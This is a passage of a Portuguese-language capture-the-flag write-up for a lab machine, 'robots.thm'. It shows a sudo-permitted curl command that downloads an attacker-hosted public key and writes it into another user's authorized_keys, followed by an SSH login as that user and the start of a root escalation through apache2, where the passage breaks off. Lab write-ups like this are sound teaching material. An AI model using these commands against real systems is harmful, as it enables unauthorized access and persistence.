 Isso pode resolver uma questão do CTF, mas o que queremos de verdade é o shell do `dolivaw`.

Para isso o `cURL` também nos permite savar as respostas das requisições em um arquivo
usando a opção -o. Então podemos usar isso para escrever uma chave SSH publica no
`authorized_keys` do dolivaw e posteriormente logar via SSH com a chave privada.

Primeiro geramos um par de chaves: (aproveitar que já estamos com o webserver aberto):

```bash
ssh-keygen -f id_ed25519 -t ed25519
```

Agora da máquina alvo, vamos fazer um curl, pegar a nossa chave pública (.pub) e escrever no `/home/dolivaw/.ssh/authorized_keys`

```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://10.6.61.234/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys
```

Aqui tem um outro trick: quando passamos o primeiro `-o /tmp/1` ele é correspondente ao primeiro request (`127.0.0.1`) e o segundo `-o /home/dolivaw/.ssh/authorized_keys` corresponde ao segundo request: `http://10.6.61.234/id_ed25519.pub`.

Feito isso, podemos logar com a nossa chave privada:

```bash
ssh -i id_ed25519 dolivaw@robots.thm
dolivaw@ubuntu-jammy:~$ id
uid=1003(dolivaw) gid=1003(dolivaw) groups=1003(dolivaw)
```

## Elevação de privilégios para o usuário root

Verificando os privilégios do usuário rgiskard:

```bash
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
```

Aqui podemos rodar o `/usr/sbin/apache2` como root. Consultando o [GTFOBins - apache2ctl](https://gtfobins.github.io/gtfobins/apache2ctl/), temos algumas opções:
